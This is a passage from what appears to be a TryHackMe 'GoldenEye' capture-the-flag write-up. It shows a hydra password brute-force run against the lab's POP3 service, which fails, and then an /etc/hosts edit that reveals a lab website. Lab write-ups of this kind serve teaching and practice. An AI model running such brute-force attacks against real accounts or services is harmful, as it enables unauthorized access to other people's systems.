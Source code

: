 Then I have to use `hydra` again to crack this user’s password:

```

┌──(kali㉿kali)-[~/TryHackMe/GoldenEye]
└─$ hydra -l xenia -P ~/Wordlists/fasttrack.txt pop3://GoldenEye.thm:55007
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these \*\*\* ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-02 11:40:41
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://GoldenEye.thm:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[STATUS] 58.67 tries/min, 176 tries in 00:03h, 46 to do in 00:01h, 16 active
[STATUS] 56.00 tries/min, 224 tries in 00:04h, 1 to do in 00:01h, 4 active
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-02 11:44:59

```

Now the dictionary `fasttrack.txt` is no longer usable to crack the password. I’ve tried with the `rockyou.txt` but it took too long and did not work too.

## Task 3: GoldenEye Operations Training

> **Instructions**
>
> If you remembered in some of the emails you discovered, there is the [severnaya-station.com](http://severnaya-station.com/) website. To get this working, you need up update your DNS records to reveal it.
>
> If you're on Linux edit your "/etc/hosts" file and add:
>
> <machines ip> [severnaya-station.com](http://severnaya-station.com/)
>
> If you're on Windows do the same but in the "c:\Windows\System32\Drivers\etc\hosts" file

First of all, I follow the instructions of the task and change the DNS in the `/etc/hosts` file:

```

┌──(kali㉿kali)-[~/TryHackMe/GoldenEye]
└─$ sudo nano /etc/hosts

┌──(kali㉿kali)-[~/TryHackMe/GoldenEye]
└─$ sudo cat /etc/hosts | grep "severnaya"
10.10.87.236 severnaya-station.com

```
